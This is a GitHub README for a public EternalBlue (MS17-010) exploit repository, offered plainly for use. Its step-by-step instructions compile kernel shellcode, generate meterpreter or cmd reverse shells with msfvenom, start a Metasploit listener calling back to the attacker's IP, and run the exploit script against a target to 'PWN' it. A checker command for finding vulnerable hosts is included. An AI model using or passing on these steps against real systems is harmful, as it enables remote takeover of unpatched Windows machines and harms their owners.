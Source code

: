 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`

## VIDEO TUTORIAL:
https://www.youtube.com/watch?v=p9OnxS1oDc0

## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
IP for reverse connection:
<YOUR-IP>
PORT you want x64 to listen on:
<SOME PORT>
PORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the propmts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

IP for reverse connection:
<YOUR-IP>
PORT for x64 reverse connection:
<SOME PORT>
PORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run `python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin>`

This has only been tested on Windows 7/Server 2008, however the exploit included in this repo also includes the Windows 8 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
